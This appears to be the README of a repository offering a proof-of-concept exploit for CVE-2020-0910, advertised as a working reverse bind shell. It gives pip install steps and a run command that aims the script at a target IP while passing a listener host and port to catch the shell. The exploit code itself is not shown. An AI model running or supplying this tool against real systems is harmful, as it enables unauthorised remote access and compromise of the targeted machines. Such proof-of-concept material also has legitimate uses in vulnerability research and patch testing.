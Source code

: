 # CVE-2020-0910
Working Exploit PoC (CVE-2020-0910) - Reverse Bind Shell

Tested using Python2.7

# To Install:

pip install -r requirements.txt


# To Run:

python CVE-2020-0910-POC.py 10.16.1.24 -lhost 10.1.1.1 -lport 4444
